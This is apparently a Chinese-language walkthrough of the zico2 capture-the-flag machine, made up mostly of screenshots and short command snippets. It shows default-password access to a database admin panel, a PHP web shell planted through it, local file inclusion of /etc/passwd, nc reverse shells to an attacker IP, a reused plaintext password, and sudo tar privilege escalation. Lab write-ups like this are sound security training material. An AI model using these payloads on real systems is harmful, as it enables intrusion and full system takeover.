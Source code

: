 # zico2

![image-20200622021837781](assets/zico2.assets/image-20200622021837781.png)

![image-20200622022112975](assets/zico2.assets/image-20200622022112975.png)

![image-20200622022737755](assets/zico2.assets/image-20200622022737755.png)

dbadmin

![image-20200622022839287](assets/zico2.assets/image-20200622022839287.png)

查看test_db.php发现是phpadmin

![image-20200622022928088](assets/zico2.assets/image-20200622022928088.png)

尝试admin，直接进入了

![image-20200622023011176](assets/zico2.assets/image-20200622023011176.png)

![image-20200622023113651](assets/zico2.assets/image-20200622023113651.png)

根据漏洞信息，我们可以简单的通过新建db的方式在服务器生成我们想要的php文件。

![image-20200622023153208](assets/zico2.assets/image-20200622023153208.png)

![image-20200622023608737](assets/zico2.assets/image-20200622023608737.png)

![image-20200622023640700](assets/zico2.assets/image-20200622023640700.png)

```bash
<?php system("id"); ?>
```

![image-20200622023522255](assets/zico2.assets/image-20200622023522255.png)

![image-20200622204546761](assets/zico2.assets/image-20200622204546761.png)

成功可以在状态中发现准确的物理路径

![image-20200622204755930](assets/zico2.assets/image-20200622204755930.png)



查看页面，发现一处似乎存在文件包含的地方

![image-20200622022336943](assets/zico2.assets/image-20200622022336943.png)

![image-20200622022429941](assets/zico2.assets/image-20200622022429941.png)

测试

```bash
http://10.10.10.143/view.php?page=../../../../etc/passwd
```

![image-20200622022505684](assets/zico2.assets/image-20200622022505684.png)

典型本地文件包含，我们尝试包含之前利用漏洞新建的php,,(由于切换了桥接模式，这里ip发生变化)

```bash
http://192.168.43.44/view.php?page=../../../../../usr/databases/evil.php
```

![image-20200622205008985](assets/zico2.assets/image-20200622205008985.png)

可以看到成功执行evil.php中的命令

再次修改evil.php的内容。使之可以为我们弹回一个shell

![image-20200622205200313](assets/zico2.assets/image-20200622205200313.png)

修改为

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1337 >/tmp/f"); ?>
```

![image-20200622205318316](assets/zico2.assets/image-20200622205318316.png)

建立监听并再次包含

得到shell

![image-20200622202856129](assets/zico2.assets/image-20200622202856129.png)

![image-20200622203520190](assets/zico2.assets/image-20200622203520190.png)

尝试密码复用

```bash
zico
sWfCsfJSPV9H3AmQzw8
```

![image-20200622203616638](assets/zico2.assets/image-20200622203616638.png)



![image-20200622203643460](assets/zico2.assets/image-20200622203643460.png)

利用tar，先写个shell

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1338 >/tmp/f' > shell.sh
```

![image-20200622204157856](assets/zico2.assets/image-20200622204157856.png)

然后将shell压缩

```bash
tar -cvf shell.tar shell.sh
```

![image-20200622204316106](assets/zico2.assets/image-20200622204316106.png)

最后，在kali设置监听，并在目标执行sudo，成功会在kali弹回shell

```bash
sudo /bin/tar -xvf shell.tar --to-command /bin/bash shell.sh
```

![image-20200622204423403](assets/zico2.assets/image-20200622204423403.png)

![image-20200622204437261](assets/zico2.assets/image-20200622204437261.png)

